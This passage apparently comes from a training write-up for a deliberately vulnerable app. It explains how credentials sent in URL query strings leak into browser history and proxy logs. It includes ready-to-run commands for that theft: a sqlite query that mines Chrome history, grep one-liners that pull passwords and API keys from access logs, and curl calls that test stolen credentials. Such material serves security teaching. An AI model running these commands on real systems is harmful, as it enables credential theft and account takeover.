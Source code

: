**Attack Intelligence Gained:**
- Valid username/password combinations
- API key used by multiple users
- Authentication patterns and timing
- Failed authentication attempts

#### 3. Browser History Harvesting
```bash
# If attacker gains access to user's browser
# Chrome history location: ~/.config/google-chrome/Default/History
sqlite3 ~/.config/google-chrome/Default/History

SELECT url, title, visit_count, last_visit_time 
FROM urls 
WHERE url LIKE '%password%' OR url LIKE '%apiKey%';

# Results show:
http://localhost:5000/api/hardcodedsecrets/auth/vuln?username=admin&password=secret123&apiKey=sk-1234567890abcdef
```

#### 4. Proxy Log Analysis
```bash
# Corporate proxy logs
grep "auth/vuln" /var/log/squid/access.log

# Shows all authentication attempts from corporate network
1625140245.123 200 TCP_MISS/200 "GET http://app.company.com/api/auth/vuln?username=ceo&password=CompanyCEO2024!&apiKey=sk-prod-key123"
```

### Attack Progression

#### Phase 1: Log Access
Attackers gain access to logs through:
- Compromised servers
- Misconfigured log aggregation systems
- Insider threats
- Cloud storage misconfigurations
- Backup file exposure

#### Phase 2: Credential Extraction
```bash
# Automated credential extraction from logs
grep -oP 'password=\K[^&]*' access.log | sort | uniq
grep -oP 'apiKey=\K[^&\s]*' access.log | sort | uniq
grep -oP 'username=\K[^&]*' access.log | sort | uniq
```

#### Phase 3: Credential Validation
```bash
# Test extracted credentials
curl "http://app.company.com/api/login" \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "secret123"}'

# Test extracted API keys
curl "https://api.external.com/data" \
  -H "Authorization: Bearer sk-1234567890abcdef"
```
